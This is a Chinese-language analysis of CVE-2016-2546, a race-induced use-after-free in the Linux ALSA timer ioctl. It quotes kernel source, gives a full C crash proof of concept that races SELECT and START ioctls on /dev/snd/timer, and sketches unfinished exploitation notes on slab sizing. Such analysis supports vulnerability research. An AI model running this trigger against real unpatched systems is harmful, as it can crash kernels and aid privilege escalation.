

# CVE-2016-2546分析

### 漏洞描述

在linux内核4.4.1之前，对`sound/core/timer.c` 中锁的设置逻辑有问题，导致`snd_timer_user_ioctl` 函数存在普遍的竞争问题。

### 一个竞争例子

`snd_timer_user_tselect` 和`snd_timer_user_start` 函数



两者都通过`snd_timer_user_ioctl` 函数进行调用

在`snd_timer_user_tselect` 函数中

这个函数主要行为是切换计时器timer，并创建实例timer instance

分析这个函数代码开头：

```c
static int snd_timer_user_tselect(struct file *file,
				  struct snd_timer_select __user *_tselect)
{
	struct snd_timer_user *tu;
	struct snd_timer_select tselect;
	char str[32];
	int err = 0;

	tu = file->private_data;
	mutex_lock(&tu->tread_sem);
	if (tu->timeri) { // 这里原意是在切换timer instance
		snd_timer_close(tu->timeri);
		tu->timeri = NULL;
	}
	if (copy_from_user(&tselect, _tselect, sizeof(tselect))) {
		err = -EFAULT;
		goto __err;
	}
	sprintf(str, "application %i", current->pid);
	if (tselect.id.dev_class != SNDRV_TIMER_CLASS_SLAVE) // 如果不是slave，拿将slave_class设置为application 
		tselect.id.dev_sclass = SNDRV_TIMER_SCLASS_APPLICATION;
	err = snd_timer_open(&tu->timeri, str, &tselect.id, current->pid);
	if (err < 0)
		goto __err;

	kfree(tu->queue);
	tu->queue = NULL;
	kfree(tu->tqueue);
	tu->tqueue = NULL;
	if (tu->tread) {
		tu->tqueue = kmalloc(tu->queue_size * sizeof(struct snd_timer_tread),
				     GFP_KERNEL);
		if (tu->tqueue == NULL)
			err = -ENOMEM;
	} else {
		tu->queue = kmalloc(tu->queue_size * sizeof(struct snd_timer_read),
				    GFP_KERNEL);
		if (tu->queue == NULL)
			err = -ENOMEM;
	}

      	if (err < 0) { // if error
		snd_timer_close(tu->timeri); // key 1
      		tu->timeri = NULL;
      	} else {
		tu->timeri->flags |= SNDRV_TIMER_IFLG_FAST;
		tu->timeri->callback = tu->tread
			? snd_timer_user_tinterrupt : snd_timer_user_interrupt;
		tu->timeri->ccallback = snd_timer_user_ccallback;
		tu->timeri->callback_data = (void *)tu;
	}

      __err:
      	mutex_unlock(&tu->tread_sem);
	return err;
}
```

在开头判断如果当前`user timer` 已经有了`timer instance` ，那就先去销毁这个实例，之后再去创建新的实例

而在`snd_timer_close` 函数中

```c
/*
 * close a timer instance
 */
int snd_timer_close(struct snd_timer_instance *timeri)
{
	struct snd_timer *timer = NULL;
	struct snd_timer_instance *slave, *tmp;

	if (snd_BUG_ON(!timeri))
		return -ENXIO;

	/* force to stop the timer */
	snd_timer_stop(timeri);

	if (timeri->flags & SNDRV_TIMER_IFLG_SLAVE) {
		/* wait, until the active callback is finished */
		spin_lock_irq(&slave_active_lock);
		while (timeri->flags & SNDRV_TIMER_IFLG_CALLBACK) {
			spin_unlock_irq(&slave_active_lock);
			udelay(10);
			spin_lock_irq(&slave_active_lock);
		}
		spin_unlock_irq(&slave_active_lock);
		mutex_lock(&register_mutex);
		list_del(&timeri->open_list);
		mutex_unlock(&register_mutex);
	} else {
		timer = timeri->timer;
		if (snd_BUG_ON(!timer))
			goto out;
		/* wait, until the active callback is finished */
		spin_lock_irq(&timer->lock);
		while (timeri->flags & SNDRV_TIMER_IFLG_CALLBACK) {
			spin_unlock_irq(&timer->lock);
			udelay(10);
			spin_lock_irq(&timer->lock);
		}
		spin_unlock_irq(&timer->lock);
		mutex_lock(&register_mutex);
		list_del(&timeri->open_list);
		if (timer && list_empty(&timer->open_list_head) &&
		    timer->hw.close)
			timer->hw.close(timer);
		/* remove slave links */
		list_for_each_entry_safe(slave, tmp, &timeri->slave_list_head,
					 open_list) {
			spin_lock_irq(&slave_active_lock);
			_snd_timer_stop(slave, 1, SNDRV_TIMER_EVENT_RESOLUTION);
			list_move_tail(&slave->open_list, &snd_timer_slave_list);
			slave->master = NULL;
			slave->timer = NULL;
			spin_unlock_irq(&slave_active_lock);
		}
		mutex_unlock(&register_mutex);
	}
 out:
	if (timeri->private_free)
		timeri->private_free(timeri);
	kfree(timeri->owner);
	kfree(timeri);
	if (timer)
		module_put(timer->module);
	return 0;
}
```

在这里先不看前面的一大堆代码，之后看后面`kfree(timeri)`

可以发现这里释放掉了`timer instance` 

分析另一个函数`snd_timer_user_start` 

```c
static int snd_timer_user_start(struct file *file)
{
	int err;
	struct snd_timer_user *tu;

	tu = file->private_data;
	if (!tu->timeri)
		return -EBADFD;
	snd_timer_stop(tu->timeri); // 先stop 在start
	tu->timeri->lost = 0;
	tu->last_resolution = 0;
	return (err = snd_timer_start(tu->timeri, tu->ticks)) < 0 ? err : 0;
}
```

这个函数的主要行为是启动计时器，所以行为是先关闭旧的计时器再开启新的计时器

后面进入的就是`snd_timer_start` 函数，这里对`timer instance` 进行了操作

```c
/*
 *  start the timer instance
 */
int snd_timer_start(struct snd_timer_instance *timeri, unsigned int ticks)
{
	struct snd_timer *timer;
	int result = -EINVAL;
	unsigned long flags;

	if (timeri == NULL || ticks < 1)
		return -EINVAL;
	if (timeri->flags & SNDRV_TIMER_IFLG_SLAVE) {
		result = snd_timer_start_slave(timeri);
		snd_timer_notify1(timeri, SNDRV_TIMER_EVENT_START);
		return result;
	}
	timer = timeri->timer;
	if (timer == NULL)
		return -EINVAL;
	spin_lock_irqsave(&timer->lock, flags);
	timeri->ticks = timeri->cticks = ticks;
	timeri->pticks = 0;
	result = snd_timer_start1(timer, timeri, ticks);
	spin_unlock_irqrestore(&timer->lock, flags);
	snd_timer_notify1(timeri, SNDRV_TIMER_EVENT_START);
	return result;
}
```

可以推理出当两个线程分别进入`snd_timer_tselect` 以及`snd_timer_start` 函数中

在`snd_timer_tselect` 对`timer instance` 指针进行释放之后，`snd_timer_start` 仍可以对已释放的堆块进行操作，造成UAF漏洞。

**Crash POC**：

```c
#define _GNU_SOURCE  
#include <pthread.h>  
#include <stdio.h>  
#include <fcntl.h>  
#include <err.h>  
#include <string.h>  
#include <unistd.h>  
#include <sys/mount.h>  
#include <sys/mman.h>  
#include <sys/syscall.h>  
#include <sys/time.h>  
#include <linux/futex.h>
#include <linux/soundcard.h>
#include <sys/soundcard.h>
#include <sys/ioctl.h>
#include <sound/asound.h>

static const char *const event_labels[] = {
    [SNDRV_TIMER_EVENT_RESOLUTION]  = "resolution",
    [SNDRV_TIMER_EVENT_TICK]        = "tick",
    [SNDRV_TIMER_EVENT_START]       = "start",
    [SNDRV_TIMER_EVENT_STOP]        = "stop",
    [SNDRV_TIMER_EVENT_CONTINUE]    = "continue",
    [SNDRV_TIMER_EVENT_PAUSE]       = "pause",
    [SNDRV_TIMER_EVENT_EARLY]       = "early",
    [SNDRV_TIMER_EVENT_SUSPEND]     = "suspend",
    [SNDRV_TIMER_EVENT_RESUME]      = "resume",
    [SNDRV_TIMER_EVENT_MSTART]      = "mstart",
    [SNDRV_TIMER_EVENT_MSTOP]       = "mstop",
    [SNDRV_TIMER_EVENT_MCONTINUE]   = "mcontinue",
    [SNDRV_TIMER_EVENT_MPAUSE]      = "mpause",
    [SNDRV_TIMER_EVENT_MSUSPEND]    = "msuspend",
    [SNDRV_TIMER_EVENT_MRESUME]     = "mresume",
};

size_t IOCTL_PVERSION(int fd) {
    size_t version;
    int errno = ioctl(fd, SNDRV_TIMER_IOCTL_PVERSION, &version);
    if (errno < 0) {
        perror("Failed in get version\n");
        printf("[-] errno: %d\n", errno);
        _exit(1);
    }
    return version;
}

void IOCTL_PARAMS(int fd) {
    /* See SNDRV_TIMER_PSFLG_XXX. */
    const char *const flag_labels[] = {
        [0] = "auto",
        [1] = "exclusive",
        [2] = "early-event",
    };
    int i;

    struct snd_timer_params params;
    memset(&params, 0, sizeof(params));
    params.flags = SNDRV_TIMER_PSFLG_AUTO | SNDRV_TIMER_PSFLG_EXCLUSIVE;
    params.ticks = 1;
    params.queue_size = 1;
    params.filter = (1 << SNDRV_TIMER_EVENT_RESOLUTION) |
                    (1 << SNDRV_TIMER_EVENT_TICK) |
                    (1 << SNDRV_TIMER_EVENT_START) |
                    (1 << SNDRV_TIMER_EVENT_STOP) |
                    (1 << SNDRV_TIMER_EVENT_CONTINUE) |
                    (1 << SNDRV_TIMER_EVENT_PAUSE) |
                    (1 << SNDRV_TIMER_EVENT_SUSPEND) |
                    (1 << SNDRV_TIMER_EVENT_RESUME) |
                    (1 << SNDRV_TIMER_EVENT_MSTART) |
                    (1 << SNDRV_TIMER_EVENT_MSTOP) |
                    (1 << SNDRV_TIMER_EVENT_MCONTINUE) |
                    (1 << SNDRV_TIMER_EVENT_MPAUSE) |
                    (1 << SNDRV_TIMER_EVENT_MSUSPEND) |
                    (1 << SNDRV_TIMER_EVENT_MRESUME);
    int errno = ioctl(fd, SNDRV_TIMER_IOCTL_PARAMS, &params);
    if (errno < 0) {
        perror("Failed in get params");
        printf("[-] errno: %d\n", errno);
        _exit(1);
    }

    printf("params:\n");
    printf("  flags:        ");
    for (i = 0; i < sizeof(flag_labels)/sizeof(flag_labels[0]); ++i) {
        if (params.flags & (1 << i))
            printf("%s, ", flag_labels[i]);
    }
    printf("\n");
    printf("  ticks:        %d\n", params.ticks);
    printf("  queue-size:   %d\n", params.queue_size);
    printf("  filter(%08x): ", params.filter);
    for (i = 0; i < sizeof(event_labels)/sizeof(event_labels[0]); ++i) {
        if (params.filter & (1 << i))
            printf("%s, ", event_labels[i]);
    }
    printf("\n");
}

void IOCTL_THREAD(int fd) {
    int flag = 1;
    int errno = ioctl(fd, SNDRV_TIMER_IOCTL_TREAD, &flag);
    if (errno < 0) {
        perror("Failed in create time thread\n");
        printf("[-] errno: %d\n", errno);
        _exit(1);
    }
    printf("[+] time thread create successfully\n");
}

void IOCTL_SELECT(int fd) {
    struct snd_timer_select select = {0};

    select.id.dev_class = SNDRV_TIMER_CLASS_PCM;
    select.id.dev_sclass = 0;
    select.id.card = 1;
    select.id.device = 0;
    select.id.subdevice = 0;
    
    int errno = ioctl(fd, SNDRV_TIMER_IOCTL_SELECT, &select);
    if (errno < 0) {
        perror("Failed in time dev select\n");
        printf("[-] errno: %d\n", errno);
        _exit(1);
    }
    printf("[+] time dev select successfully\n");
}

void IOCTL_INFO(int fd) {
    struct snd_timer_info info;
    memset(&info, 0, sizeof(info));
    int errno = ioctl(fd, SNDRV_TIMER_IOCTL_INFO, &info);
    if (errno < 0) {
        perror("Failed in get info\n");
        printf("[-] errno: %d\n", errno);
        _exit(1);
    }
    printf("[+] Timer info: card=%d, id=%s, name:%s\n", info.card, info.id, info.name);
}

void IOCTL_INIT(int fd) {
    struct snd_timer_select select;
    memset(&select, 0, sizeof(select));
    select.id.dev_class = SNDRV_TIMER_CLASS_GLOBAL;  // 使用全局定时器
    select.id.dev_sclass = SNDRV_TIMER_SCLASS_NONE; // 无子类

    int ret = ioctl(fd, SNDRV_TIMER_IOCTL_SELECT, &select);
    if (ret < 0) {
        perror("Failed to select timer source");
        _exit(1);
    }
    // printf("[+] init timer successfully\n");
}

void IOCTL_START(int fd) {

    int ret = ioctl(fd, SNDRV_TIMER_IOCTL_START, NULL);
    if (ret < 0) {
        perror("Failed to start timer");
        _exit(1);
    }
    // printf("[+] start timer successfully\n");
}

void IOCTL_INIT_FOR_MYSELF(int fd) {
    struct snd_timer_select select;
    memset(&select, 0, sizeof(select));

    // 设置为用户定时器
    select.id.dev_class = SNDRV_TIMER_CLASS_SLAVE;
    select.id.dev_sclass = SNDRV_TIMER_SCLASS_NONE;

    int ret = ioctl(fd, SNDRV_TIMER_IOCTL_SELECT, &select);
    if (ret < 0) {
        perror("Failed to select user-defined timer");
        _exit(1);
    }
    printf("[+] User-defined timer selected successfully\n");
}

void *thread_tselect1(void *arg) {
    int fd = *(int *)arg;
    while (1)
        IOCTL_INIT(fd);
    return NULL;
}

void *thread_tselect2(void *arg) {
    int fd = *(int *)arg;
    while (1)
        IOCTL_START(fd);
    return NULL;
}

int main(){

    int fd = open("/dev/snd/timer", O_RDWR | O_CLOEXEC);
    if(fd < 0){
        perror("open");
        _exit(1);
    }

    // 配置定时器参数
    struct snd_timer_params params;
    memset(&params, 0, sizeof(params));
    params.flags = 0;
    params.ticks = 1000;  // 每秒触发 1000 次
    params.queue_size = 32;     // 使用默认队列
    params.reserved0 = 1; // 分辨率：1微秒

    // Get version
    long version;
    version = IOCTL_PVERSION(fd);
    printf("[+] get version: %ld\n", version);

    // Get thread
    IOCTL_THREAD(fd);

    IOCTL_INIT(fd);

    /*test for create clock*/
    IOCTL_INFO(fd);

    IOCTL_INIT(fd);

    // for(int i = 0; i < 10; i ++)
    //     IOCTL_START(fd);

    printf("[+] prepare to racing\n");
    sleep(2);

    pthread_t t1, t2;
    pthread_create(&t1, NULL, thread_tselect1, &fd);
    pthread_create(&t2, NULL, thread_tselect2, &fd);

    printf("[+] threads create already\n");

    pthread_join(t1, NULL);
    pthread_join(t2, NULL);

    printf("[+] racing condition...\n");
    // // Select dev
    // IOCTL_SELECT(fd);

    // IOCTL_PARAMS(fd);

    return 0;
}
```

### git修复方案

非常暴力地给整个ioctl上了锁…

### 利用

现在我们知道，`snd_timer_user_tselect` 函数会造成`timer instance` 的UAF

结构体

```c
struct snd_timer_instance {
	struct snd_timer *timer;
	char *owner;
	unsigned int flags;
	void *private_data;
	void (*private_free) (struct snd_timer_instance *ti);
	void (*callback) (struct snd_timer_instance *timeri,
			  unsigned long ticks, unsigned long resolution);
	void (*ccallback) (struct snd_timer_instance * timeri,
			   int event,
			   struct timespec * tstamp,
			   unsigned long resolution);
	void *callback_data;
	unsigned long ticks;		/* auto-load ticks when expired */
	unsigned long cticks;		/* current ticks */
	unsigned long pticks;		/* accumulated ticks for callback */
	unsigned long resolution;	/* current resolution for tasklet */
	unsigned long lost;		/* lost ticks */
	int slave_class;
	unsigned int slave_id;
	struct list_head open_list;
	struct list_head active_list;
	struct list_head ack_list;
	struct list_head slave_list_head;
	struct list_head slave_active_head;
	struct snd_timer_instance *master;
};
```

ioctl自带的函数并没有大量对`timer_instance` 的操作，难以leak

`timer_instance` 结构体总大小0xcc，对应slab allocation kmalloc-256

感觉比较麻烦，完整利用思路待补充…

### 参考链接

[https://www.kernel.org/doc/html/latest/sound/utimers.html](https://www.kernel.org/doc/html/latest/sound/utimers.html)

[https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=af368027a49a751d6ff4ee9e3f9961f35bb4fede](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=af368027a49a751d6ff4ee9e3f9961f35bb4fede)